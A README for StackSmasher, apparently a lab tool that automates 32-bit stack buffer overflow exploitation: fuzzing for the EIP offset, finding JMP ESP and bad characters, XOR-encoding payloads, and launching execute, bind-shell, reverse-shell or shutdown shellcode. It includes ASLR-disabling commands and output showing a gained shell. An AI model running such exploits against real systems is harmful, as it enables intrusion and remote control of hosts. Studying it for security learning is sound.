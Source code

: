 # StackSmasher

## Description
StackSmasher is an application which automatically performs a stack based buffer overflow on the target application. Currently it only supports attacking a vulnerable application through the application run time arguments. However, future modifications are to support various application inputs such as standard input and tcp input.

It will rerun the application many times to fuzz the input until a segmentation fault occurs. It will then find the offset of EIP, as well as the address of a JMP ESP instructions. Next it tests all characters to find any bad characters. Afterwards, it xor encodes the payload to obfuscate the payload and remove any bad characters. Finally it builds the final payload and outputs it.

## Running StackSmasher
```sh
./smasher vulnerable
```

Example Output:
```
   _____ __             __   _____                      __             
  / ___// /_____ ______/ /__/ ___/____ ___  ____ ______/ /_  ___  _____
  \__ \/ __/ __ `/ ___/ //_/\__ \/ __ `__ \/ __ `/ ___/ __ \/ _ \/ ___/
 ___/ / /_/ /_/ / /__/ ,<  ___/ / / / / / / /_/ (__  ) / / /  __/ /    
/____/\__/\__,_/\___/_/|_|/____/_/ /_/ /_/\__,_/____/_/ /_/\___/_/     
                                                                       
                    By https://github.com/McCaulay                     

[*] Fuzzing EIP and finding JMP ESP...
[+] Found JMP ESP at 0x565561fe
[+] EIP found at offset 0x51e with a padding length of 0x530
[*] Finding bad characters...
[+] Found 4 bad characters: \x00\x0a\x0d\x43
[*] XOR encoding payload...
[+] Executing application with payload...
_________________________________________

Hello AAAAAAAAAAAAAAAAAAAA...(truncated)
$ pwd
/home/mccaulay/StackSmasher/bin
```

Help:
```
Usage: StackSmasher [options] application 

Positional arguments:
application           	The target application being tested

Optional arguments:
-h --help             	Shows help message and exists
--version             	Show program's version number and exit
-p --payload          	The built-in payload to use. [execute, bind-shell, reverse-shell, shutdown] [default: "execute"]
-pf --payload-file    	The binary payload file to be sent instead of built-in payload. [default: ""]
-v --verbose          	Verbosity level: 0-4. [default: 1]
-n --nops             	The number of NOPs to put in the NOP sled before the shell. [default: 20]
-q --quiet            	Do not print the start header. [default: false]
-e --exploit          	Automatically run the full payload against the application. [default: false]
-s --script           	Save the exploit as a script for the given language. [python, go, c] [default: ""]
-sf --script-filename 	The filename without extension the script should be saved as if --script is passed. [default: ""]
--binary              	The binary the application should execute if a built-in payload is selected. [default: "/bin/sh"]
--shell-ip            	The IP address a reverse shell should connect to. [default: "127.0.0.1"]
--shell-port          	The port number a bind shoud listen on or a reverse shell should connect to. [default: 1337]
--skip-aslr-check     	Skip checking if ASLR is enabled and proceed anyway. [default: false]
--skip-encoding       	Skip encoding the payload and checking bad characters. [default: false]
--no-colour           	Do not output ANSI escape codes to show colours. [default: false]
```

## Limitations
Various settings must be disabled for this to work including DEP, NX, and ASLR. ASLR needs to be done manually using the following script. This application also only works against 32 bit applications.

## ASLR
ASLR must be disabled to test this application.

### Disable ASLR
```sh
sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```

### Enable ASLR
```sh
sudo bash -c "echo 2 > /proc/sys/kernel/randomize_va_space"
```

## Payloads
There are currently four payloads in this project.

### sh.bin
sh.bin is a simple shell which executes the /bin/sh application. This application can be easily modified in the payloads/sh.asm file, and then recompiled.

### bind-shell.bin
bind-shell.bin will listen for a connection port 1337. This can be changed in payloads/bind-shell.asm and then recompiled.

### reverse-shell.bin
reverse-shell.bin will connect to a shell listening on ip 127.0.0.1 and port 1337. This can be changed in payloads/reverse-shell.asm and then recompiled.

### shutdown.bin
shutdown.bin will automatically shut down the computer when executed.

## Compiling
To compile the applications as 32 bit, you may need to install gcc-multilib.
```sh
sudo apt-get install gcc-multilib
```

Compile all applications.
```sh
make
```

# Improvements
- [ ] Debug and fix the bug which causes payload not to work on some occasions. If not encoded, sh.bin works but reverse-shell.bin doesnt. Encoding makes results random. Possibly a bad character that isn't picked up on the bad character functionality? Other potential reasons could be bad character at a specific index only?
- [ ] Support multiple output languages (Ruby etc)
- [ ] Move shellcode to inside padding then decrease ESP, JMP ESP?
- [ ] Validate there is enough space for payload
- [ ] Support more application input types (interactive, stdin, network).
- [ ] Support more encoders.
- [ ] Support x64
- [ ] ROP Chains
- [ ] Ret2Libc
- [ ] Windows
- [ ] Search library memory for JMP ESP
- [ ] Support alternatives to JMP ESP
- [ ] Support payload prefix and suffix (--template file?)
